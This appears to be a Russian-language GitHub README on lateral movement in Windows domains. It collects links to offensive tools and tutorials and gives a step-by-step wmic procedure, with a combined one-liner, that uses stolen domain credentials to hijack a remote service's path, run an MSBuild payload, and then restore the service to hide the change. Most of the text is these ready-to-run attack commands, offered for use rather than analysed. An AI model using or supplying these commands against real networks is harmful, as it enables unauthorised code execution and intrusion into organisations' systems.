 ## lateral movement или Горизонтально-боковое движение

![Just Walking The Dog](https://github.com/buftas/Active-Directory-Exploitation-Cheatsheet/blob/master/WalkTheDog.png)



#### [Pivoting](https://www.youtube.com/watch?v=X-SpccxCPUA)

[NTLM Relay, Token Impersonation, Pass the Hash, PsExec, and more](https://youtu.be/QvMeLoyS944)

!!! https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

#### Links

https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/

https://github.com/Mr-Un1k0d3r/PoisonHandler

[что это и для чего](https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f) и [основные приемы и трюки](https://habr.com/ru/post/439026/).


*расширяемся по (нашей "наверное") сети !
 
для этого есть прeкрасный [инструмент](https://github.com/Ondrik8/lateral_movement/blob/master/SCShell-master.zip)

Шаг 1: Получите текущее pathName вашей целевой службы, чтобы мы могли восстановить его после запуска нашей команды (в нашем случае XblAuthManager)

`wmic /user:DOMAIN\USERNAME /password:PASSWORD /node:TARGET_IP service where name='XblAuthManager' get pathName`

Шаг 2: Измените pathName на любую команду, которую вы хотите запустить

`wmic /user:DOMAIN\USERNAME /password:PASSWORD /node:TARGET_IP service where name='XblAuthManager' call change PathName="C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe C:\testPayload.xml"`

Шаг 3: Запустите измененный сервис

`wmic /user:DOMAIN\USERNAME /password:PASSWORD /node:TARGET_IP service where name='XblAuthManager' call startservice`

Шаг 4. Измените путь службы до ее первоначального значения.

`wmic /user:DOMAIN\USERNAME /password:PASSWORD /node:TARGET_IP service where name='XblAuthManager' call change PathName="C:\Windows\system32\svchost.exe -k netsvcs"`

И дабы все обьеденить в одну команду.

`wmic /user:DOMAIN\USERNAME /password:PASSWORD /node:TARGET_IP service where name='XblAuthManager' call change PathName="C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe C:\testPayload.xml" & wmic /user:DOMAIN\USERNAME /password:PASSWORD /node:TARGET_IP service where name='XblAuthManager' call startservice & wmic /user:DOMAIN\USERNAME /password:PASSWORD /node:TARGET_IP service where name='XblAuthManager' call change PathName="C:\Windows\system32\svchost.exe -k netsvcs" `

+ testPayload.xml

